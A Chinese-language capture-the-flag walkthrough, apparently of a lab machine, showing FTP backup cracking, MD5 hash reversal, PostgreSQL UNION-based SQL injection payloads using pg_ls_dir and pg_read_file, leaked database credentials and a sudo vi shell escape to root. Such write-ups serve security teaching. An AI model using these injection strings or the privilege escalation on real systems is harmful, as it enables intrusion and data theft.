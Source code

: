 nmap扫描结果

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142039413.png)

---

在ftp中存在备份文件

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142041594.png)

但是要密码,注意到压缩包中存在`style.css`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142050308.png)

同时网站中也存在`style.css`,可以尝试进行已知明文攻击

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142051594.png)

注意在压缩`style.css`时要在linux上进行压缩,否则APCHPR会报错

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142115144.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142116334.png)

见[backup_decrypted](backup_decrypted)

```php
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
...
```

`2cb42f8734ea607eefed3b70af13bbd3`反查结果为`qwerty789`

成功登录

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142120666.png)

报错`ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%1'%' ^`

`?search=1%' union select null,version(),null,null,null--+`确认数据库类型为`PostgreSQL`,`PostgreSQL 11.7 (Ubuntu 11.7-0ubuntu0.19.10.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008, 64-bit`

`?search=1%' union select null,pg_ls_dir('/var/www/html'),null,null,null--+`列出路径

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142219299.png)

`?search=1%' union select null,pg_read_file('/var/www/html/dashboard.php', 0, 20000),null,null,null--+`读取`dashboard.php`

```php
<?php
session_start();
if ($_SESSION['login'] !== "true") {
    header("Location: index.php");
    die();
}
try {
    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
} catch (exception $e) {
    echo $e->getMessage();
}

if (isset($_REQUEST['search'])) {
    $q = "Select * from cars where name ilike '%" . $_REQUEST["search"] . "%'";
    $result = pg_query($conn, $q);
    if (!$result) {
        die(pg_last_error($conn));
    }
    while ($row = pg_fetch_array($result, NULL, PGSQL_NUM)) {
        echo "
    <tr>
    <td class='lalign'>$row[1]</td>
    <td>$row[2]</td>
    <td>$row[3]</td>
    <td>$row[4]</td>
    </tr>";
    }
} else {
    $q = "Select * from cars";
    $result = pg_query($conn, $q);
    if (!$result) {
        die(pg_last_error($conn));
    }
    while ($row = pg_fetch_array($result, NULL, PGSQL_NUM)) {
        echo "
    <tr>
    <td class='lalign'>$row[1]</td>
    <td>$row[2]</td>
    <td>$row[3]</td>
    <td>$row[4]</td>
    </tr>";
    }
}
?>
```

利用`user=postgres password=P@s5w0rd!`成功连接

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142232342.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142237751.png)

`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`

`:set shell=/bin/sh`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142305737.png)

`:shell`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142309871.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201142310205.png)